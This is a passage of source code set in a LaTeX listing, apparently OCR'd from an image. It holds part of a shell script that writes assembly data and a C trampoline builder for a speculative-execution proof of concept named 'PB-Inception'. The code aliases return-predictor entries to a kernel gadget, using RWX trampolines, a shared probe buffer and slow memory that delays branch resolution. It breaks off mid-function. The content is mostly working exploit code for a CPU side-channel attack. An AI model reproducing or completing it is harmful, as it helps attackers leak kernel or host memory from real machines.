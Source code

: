 \documentclass[11pt,a4paper]{article}
\begin{document}
\begin{lstlisting}[language=bash, alsolanguage=C]
section .data
__pbinc_kernel_gadget_addr: dq 0           ; Patched at runtime: VA of kernel gadget (used to derive alias class)
__pbinc_probe_shared:       dq 0           ; Patched at runtime: guest VA of SHARED probe buffer (1 MiB)
__alias_tbl:                times 64 dq 0  ; Table of 64 trampoline entry VAs (callsite-aligned, RA aliasing gadget)
__slow_predicate_ptr:       dq 0           ; Points to mapped slow memory to delay JE resolution
; Slow memory because: Because we want the CPU to speculate into the training block before it knows whether the branch
; is actually taken or not.
EOF

info "Writing trampoline builder (CALLSITE trampolines; RA aliasing) -> trampoline.c"
cat > "${USER_DIR}/trampoline.c" <<EOF
#define _GNU_SOURCE
#include <stdio.h>
#include <stdint.h>
#include <stdlib.h>
#include <sys/mman.h>
#include <errno.h>

// Trampoline because: A small piece of code whose only purpose
// is to jump or call into another piece of code -> often while
// managing control flow

// Total number of desired trampolines for return-predictor pressure
#define TRAMPOLINE_COUNT ${TRAMP_COUNT}

// Max number of slots we'll scan to find alias-matching trampolines
#define MAX_SEARCH_ATTEMPTS 4096

// System page size (used to calculate region allocation)
#define PAGE_SIZE 4096

// Size of memory to mmap for trampoline stubs
#define REGION_SIZE (PAGE_SIZE * MAX_SEARCH_ATTEMPTS)

// x86 opcodes
#define RET_OPCODE 0xC3   // ret
#define CALL_OPCODE 0xE8  // call rel32

// Externals patched/shared across PoC
extern uint64_t __pbinc_kernel_gadget_addr;    // Kernel gadget VA
extern uint64_t __alias_tbl[TRAMPOLINE_COUNT]; // Trampoline callsite entry points

// Allow override of alias mask (used to match gadget RA bits)
#ifndef ALIAS_MASK
#define ALIAS_MASK ${ALIAS_MASK}UL // Mask used to match low bits of return address
#endif

////////////////////////////////////////////////////////////////////////////////
// Builds a set of trampolines (CALLSITE stubs) where the return address
// (i.e. the address after the CALL) falls in the same predictor class
// as the kernel gadget. This is the key to PB-Inception predictor pressure.
////////////////////////////////////////////////////////////////////////////////
void *pbinc_create_trampolines(uint64_t gadget_addr) {
    // Allocate RWX memory region for executable trampolines
    uint8_t *region = mmap(NULL, REGION_SIZE, PROT_READ|PROT_WRITE|PROT_EXEC,
                           MAP_PRIVATE|MAP_ANONYMOUS, -1, 0);
    if (region == MAP_FAILED) {
        perror("mmap"); exit(1); // Bail if mapping fails
    }


\end{lstlisting}
\end{document}
